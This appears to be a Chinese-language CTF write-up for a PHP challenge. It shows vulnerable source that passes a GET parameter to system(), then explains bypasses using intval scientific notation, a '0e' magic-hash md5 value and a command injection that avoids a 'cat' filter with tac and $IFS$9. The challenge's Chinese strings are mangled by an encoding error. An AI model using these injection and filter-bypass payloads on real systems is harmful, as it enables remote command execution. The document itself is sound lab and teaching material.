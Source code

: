 ```php
    }
}else{
    die("鍘婚潪娲插惂");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?>
```

**level1-①**

很简单绕过，你给num传十六进制的数时，它会被定义为字符串型变量，所以第一个就直接返回为0，而第二个由于进行了加减变化，会强制转换下进制，所以变成了十六进制来计算(这种方法虽然在题目中通过了，但是在本地一直不成功)
传一个稍微大一点的十六进制就可以了

**level1-②**

根据`intval()`函数的使用方法，当函数中用字符串方式表示科学计数法时，函数的返回值是科学计数法前面的一个数，而对于科学计数法加数字则会返回科学计数法的数值，所以传一个`2e4`也是可以的

**level2**

这里就有点意思了md5前等于md5后，第一次见这样的绕过，就想着能否构造一个md5前后，开头都是**0e**的值(后面全为数字)，网上果然有
**0e215962017**

**level3**

这个就是直接rce了，就过滤了一个cat

**最终payload**

```
?num=2e4&md5=0e215962017&get_flag=tac$IFS$9fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```
